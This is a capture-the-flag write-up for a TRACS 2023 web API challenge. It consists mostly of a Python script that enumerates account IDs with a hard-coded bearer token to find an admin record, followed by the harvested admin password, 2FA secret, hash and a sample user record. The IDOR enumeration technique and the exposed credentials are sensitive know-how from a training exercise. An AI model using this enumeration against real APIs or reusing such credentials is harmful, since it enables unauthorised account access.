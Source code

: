 ```yaml
---
layout: writeup
category: TRACS2023
chall_description: 
points: 150
solves: 16
tags: Web API
date: 2023-12-13
comments: false
---
```



import requests
from time import sleep
url = "http://nexicoins.tracs.viarezo.fr/api/account/infos?id="
access_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwMTUzMzgyMywianRpIjoiY2FiZTFkNWUtNWY5Yy00MGY1LWI2OWQtNWFhMzlmOThhODYwIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MSwibmJmIjoxNzAxNTMzODIzLCJleHAiOjE3MDE1MzQ3MjN9.P9ak3lSyOA6GFrhC4akDhw0Jh9DAAUuPKxPBfg3oM8k"
headers = {
     "Authorization": f"Bearer {access_token}"
}
for i in range(188,1050):
     print(url + str(i))
     response = requests.get(url+str(i), headers=headers)
     if response.status_code == 200:
              if "admin" in response.text:
                    print("Response:", response.json)
                    break
     else:
          print(f"Error: {response.status_code}, {response.text}")
     sleep(1)


#PASSWORD admin: id 852 admin@trade.local : 5874bon1440rev21 
#2FA: KFGWCURIIJDT6627K5CHAQ3VJ56UU332PNJHE2JXKFMDG4LBJVRQU
#hashadmin 2dab208fb73fb1e9444dfb9981ae7c71f0c54fdd746292db55b93cf880d6facf


{"role": "user", "email": "marie.honnette@evilottery.ev", "password": "4c504c9d0dce1700ae57a16147074820c0745b005bddcfb4a876a54c38389046", "2FA": "None", "balance": "307.28", "stocks": [{"code": "HWN", "qty": 13.540588842504697}, {"code": "CYI", "qty": 3.444808330834581}, {"code": "TQK", "qty": 6.046132874644536}, {"code": "OUT", "qty": 16.35328518715449}, {"code": "THD", "qty": 9.108755215289444}, {"code": "OQN", "qty": 10.812927301654812}, {"code": "RLI", "qty": 18.653448986299026}, {"code": "JGD", "qty": 12.589059350125865}, {"code": "EYB", "qty": 5.932961914189468}]}
